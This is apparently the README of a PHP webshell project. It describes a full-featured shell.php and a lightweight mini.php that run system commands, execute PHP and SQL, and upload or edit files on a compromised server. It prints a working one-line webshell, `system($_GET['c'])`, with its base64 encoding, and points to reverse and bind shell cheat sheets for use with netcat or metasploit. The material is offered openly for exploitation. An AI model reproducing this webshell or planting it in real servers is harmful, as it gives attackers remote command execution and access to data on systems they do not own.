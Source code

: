 ## PHP Webshell

This is a simple yet useful PHP webshell.
It is compatible with PHP > 5.2

This webshell comes in two flavours :
- shell.php : fully featured webshell to exploit
- mini.php : lightweight, only essential features


### Features

shell.php offers :
- browse server's directory tree
- read, edit, delete, upload and download file
- Execute system commands
- Execute PHP code
- Execute MySql queries

mini.php offers :
- Execute system commands
- Execute PHP code
- Upload file


### More content

Another file is available : `mini-b64.txt`
This is the base64 version of mini.php. It does not contain '+' and '/' chars to avoid URL encoding and other possible issues.

Tiniest PHP shell
`<?php system($_GET['c'])?>
PD9waHAgc3lzdGVtKCRfR0VUWydjJ10pPz4=`


In order to upgrade to a more interactive shell, take a look at these :

PHP reverse shell : https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php

PHP bind shell : https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Bind%20Shell%20Cheatsheet.md

You will be able to use them with netcat or metasploit's multi/handler


Do you still need more ? Take a look at these :
https://www.revshells.com/
https://yolospacehacker.com/hackersguide/en/?cat=Webshell
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md